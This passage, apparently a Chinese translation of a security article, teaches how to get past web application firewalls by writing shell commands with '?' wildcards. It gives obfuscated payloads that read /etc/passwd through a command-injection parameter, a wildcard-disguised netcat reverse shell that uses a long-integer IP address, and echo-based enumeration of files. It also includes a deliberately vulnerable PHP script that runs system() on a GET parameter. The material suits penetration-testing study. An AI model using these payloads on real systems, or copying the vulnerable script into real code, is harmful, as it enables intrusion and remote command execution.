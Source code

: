 [![](https://p0.ssl.qhimg.com/t01d35807f37d4ff597.png)](https://p0.ssl.qhimg.com/t01d35807f37d4ff597.png)<br>
用这种语法，你可以执行基本上你想要的任何事情。假设您的易受攻击目标位于Web应用程序防火墙之后，并且此WAF有一条规则，该规则可阻止包含GET参数`/etc/passwd`或`/bin/ls`内部值的所有请求，或在POST请求中阻止所有请求内部值的请求。如果你试图提出一个请求，`/?cmd=cat+/etc/passwd`它会被目标WAF阻止，你的IP将被永久禁止。但是你的口袋里有一把叫做通配符的秘密武器。如果你幸运的话（我们后面会看到，可能没那么幸运）目标WAF没有足够的级别来阻止像`?`和`/`在查询字符串中。那么你可以很容易构造你的payload像这样：`/?cmd=%2f???%2f??t%20%2f???%2fp??s??`<br>[![](https://p4.ssl.qhimg.com/t016174bf49621f39f0.png)](https://p4.ssl.qhimg.com/t016174bf49621f39f0.png)<br>
正如你在上面的截图中看到的，有3个错误`/ bin / cat *：是一个目录`。发生这种情况是因为`/???/??t`可以通过globbing过程转换，可被转化为`/bin/cat`，也可以是`/dev/net`或者`/etc/apt`等……<br>
问号通配符只代表一个字符，可以是任何字符。因此，如果你知道文件名的一部分，那么你可以使用这个通配符。例如，`ls *.???`会列出当前目录中所有文件的长度为3个字符的扩展名。<br>
因此将列出具有诸如`.gif，.jpg，.txt`之类的扩展名的文件。<br>
使用这个通配符，你可以使用netcat执行一个反向shell。假设您需要在端口1337<br>
（通常`nc -e /bin/bash 127.0.0.1 1337`）执行127.0.0.1的反向shell ，您可以使用如下语法来执行此操作：<br>`/???/n? -e /???/b??h 2130706433 1337`<br>
以long格式（2130706433）转换IP地址127.0.0.1，可以避免在HTTP请求中使用”点”字符。<br>
在我的kali中我需要使用`nc.traditional`，以便`/bin/bash`连接后执行。payload变成这样：

```
/???/?c.??????????? -e /???/b??h 2130706433 1337
```

[![](https://p2.ssl.qhimg.com/t0197eb5c5ebddb6ae7.gif)](https://p2.ssl.qhimg.com/t0197eb5c5ebddb6ae7.gif)<br>
总结了我们刚才看到的两个命令：<br>
标准：`/bin/nc 127.0.0.1 1337`<br>
bypass：`/???/n? 2130706433 1337`<br>
使用字符：`/ ? n [0-9]`

标准：`/bin/cat /etc/passwd`<br>
bypass：`/???/??t /???/??ss??`<br>
使用字符：`/ ? t s`<br>
为什么要用`?`而不是`*?`因为星号（**）被广泛用于评论语法（类似于`/ **嗨，我是注释** /`），并且许多WAF会阻止它为了避免SQL注入,类似于`UNION + SELECT + 1,2,3 / **`枚举文件和目录使用`echo？`。该echo命令可以使用通配符枚举文件系统上的文件和目录。例如`echo /**/**ss*`<br>[![](https://p2.ssl.qhimg.com/t01549b8f4473497823.png)](https://p2.ssl.qhimg.com/t01549b8f4473497823.png)<br>
这可以在RCE上使用，以获取目标系统上的文件和目录，例如：<br>[![](https://p5.ssl.qhimg.com/t0164f83d5867c95bb2.png)](https://p5.ssl.qhimg.com/t0164f83d5867c95bb2.png)<br>
但为什么使用通配符（特别是问号）可以规避WAF规则集？让我从Sucuri WAF开始吧！



## Sucuri WAF 逃逸

[![](https://p4.ssl.qhimg.com/t011d9eb143e377cd52.png)](https://p4.ssl.qhimg.com/t011d9eb143e377cd52.png)<br>
测试WAF规则集的最佳方法是哪一种？<br>
创建世界上最脆弱的PHP脚本并尝试所有可能的技巧！在上面的屏幕截图中，我们有：<br>
在左上窗格中有我简陋的Web应用程序（它只是一个执行命令的PHP脚本）：

```
&lt;?php
      echo 'ok: ';
      print_r($_GET['c']);
      system($_GET['c']);

```
